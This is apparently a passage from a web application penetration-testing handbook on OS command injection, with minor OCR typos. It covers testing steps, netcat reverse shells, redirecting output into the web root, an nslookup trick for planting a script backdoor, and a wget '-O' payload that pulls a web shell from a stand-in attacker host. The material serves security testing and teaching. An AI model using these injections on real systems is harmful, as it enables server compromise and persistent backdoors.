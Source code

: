 >> 3. Using whichever of the injection strings was found to be successful, try injecting a more interesting command (such as `ls` or `dir`). Determine whether you can retrieve the results of the command to your browser.
>> 4. If you're unable to retrieve results directly, you have other options:
>> -> You can attempt to open an out-of-band channel back to your computer. Try using TFTP to copy tools up to the server, using telnet or netcat to create reverse shell back to your computer, and using the `mail` command to send command output via SMTP.
>> -> You can redirect the result of your commands to a file within the web root, which you can then retrieve directly using your browser. For example:
>> 	`dir > c:\inetpub\wwwroot\foo.txt`
>
>> 5. When you have found a means of injecting commands and retrieving the results, you should determine your privilege level (by using `whoami` or something similar, or attempting to write a harmless file to a protected directory). You may then seek to escalate privileges, gain backdoor access to sensitive application data, or attack other hosts reachable from the compromised server.

In one instance seen by the authors, the application passed user input to the operating system command `nslookup` to find the IP address of a domain name supplied by the user. The metacharacters needed to inject new commands were being blocked, but the `<` and `>` chararcters used to redirect the command's input and output were allowed. The `nslookup` command usually outputs the IP address for a domain name, which did not seem to provide an effective attack vector. However, if an invalid domain name is supplied, the command outputs an error message that includes the domain name that was looked up. This behavior proved sufficient to deliver a serious attack:

- Submit a fragment of server-executable script code as the domain name to be resolved. The script can be encapsulated in quotes to ensure that the command interpreter treats it as a single token.
- Use the `>` character to redirect the command's output to a file in an executable folder within the web root. The command executed by the opening system is as follows:
```
nslook "[script code]" > [/path/to/executable_file]
```

- When the command is run, the following output is redirected to the executable file:
```
** server can't find [script code]: NXDOMAIN
```

- Because most scripting languages allow pages to contain a mix of client-side content and server-side markup, the parts of the error message that the attacker does not control are just treated as plain text, and the markup within the injected script is executed. The attack therefore succeeds in leveraging a restricted command injection condition to introduce an unrestricted backdoor into the application server.

> HACK STEPS
>> 1. The `<` and `>` characters are used, respectively, to direct the contents of a file to the command's input and to direct the command's output to a file. If it is not possible to use the preceding technique to inject an entirely separate command, you may still be able to read and write arbitrary file contents using the < and > characters.
>> 2. Many operating system commands that appilcations invoke accept a number of command-line parameters that control their behavior. Often, user-supplied input is passed to the command as one of these parameters, and you may be able to add further parameters simply by inserting a space followed by the relevant parameter. For example, a web-authoring appication may contain a function in nwhich the server retrieves a user-specified URL and render its contents in-browser for editing. If the application simply calls out to the `wget` program, you may be able to write arbitrary file contents to the server's filesystem by appending the `-O` command-line parameter used by `wget`. For example:
>> `url=http://wahh-attacker.com/%20-O%20c:\inetpub\wwwroot\scripts\cmdasp.asp`
